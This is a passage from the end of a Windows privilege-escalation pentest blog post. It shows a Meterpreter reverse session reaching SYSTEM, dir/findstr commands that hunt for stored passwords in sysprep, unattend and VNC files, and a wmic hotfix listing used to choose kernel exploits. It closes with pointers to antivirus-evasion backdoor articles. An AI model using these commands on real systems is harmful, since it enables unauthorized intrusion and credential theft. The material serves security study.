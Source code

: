 ```
[*] Sending stage (957999 bytes) to 192.168.2.40
[*] Meterpreter session 5 opened (192.168.2.60:8989 -> 192.168.2.40:49156) at 2017-01-18 07:47:39 -0500
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
We got it! 😉
## Stored Credentials
If any of that methods work, you may try to find some stored credentials. You may want to check these directories:

* C:\unattend.xml
* C:\sysprep.inf
* C:\sysprep\sysprep.xml

And you may want to search files using queries like this:
```
dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b
dir c:\ /s /b | findstr /si *vnc.ini
findstr /si password *.txt | *.xml | *.ini
findstr /si pass *.txt | *.xml | *.ini
```
## Kernel Exploits
In this blog post, I especially tried to explain escalation methods that do not rely upon kernel exploits. But you are about to use an exploit to escalate your privileges, maybe this command will help you to choose which one you should use:
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
It will list the updates that are installed on the machine.
## A Note About Payloads
In this blog post, my payloads generated by MSFvenom. However today, these payloads are flagged by almost all Anti-Viruses. Because it is a popular tool and well known by AV vendors. Creating creating your own executables using AV bypassing techniques will give you the best results. You should consider reading these articles:

* [Art of Anti Detection 1 – Introduction to AV & Detection Techniques](https://pentest.blog/art-of-anti-detection-1-introduction-to-av-detection-techniques/)
* [Art of Anti Detection 2 – PE Backdoor Manufacturing](https://pentest.blog/art-of-anti-detection-2-pe-backdoor-manufacturing/)
## References
[1] – https://www.trustwave.com/Resources/SpiderLabs-Blog/My-5-Top-Ways-to-Escalate-Privileges/
[2] – https://msdn.microsoft.com/en-us/library/windows/desktop/ms682425(v=vs.85).aspx
[3] – https://msdn.microsoft.com/en-us/library/windows/desktop/ms682586(v=vs.85).aspx
[4] – https://www.synack.com/2014/12/10/dll-hijacking-in-2014/
[5] – http://www.fuzzysecurity.com/tutorials/16.html
[6] – https://www.exploit-db.com/docs/39732.pdf
[7] – https://www.tecklyfe.com/remediation-microsoft-windows-unquoted-service-path-enumeration-vulnerability/
[8] – https://toshellandback.com/2015/11/24/ms-priv-esc/
[9] – https://it-ovid.blogspot.de/2012/02/windows-privilege-escalation.html
[10] – https://blog.netspi.com/windows-privilege-escalation-part-1-local-administrator-privileges/

tags: #windows #pentest 
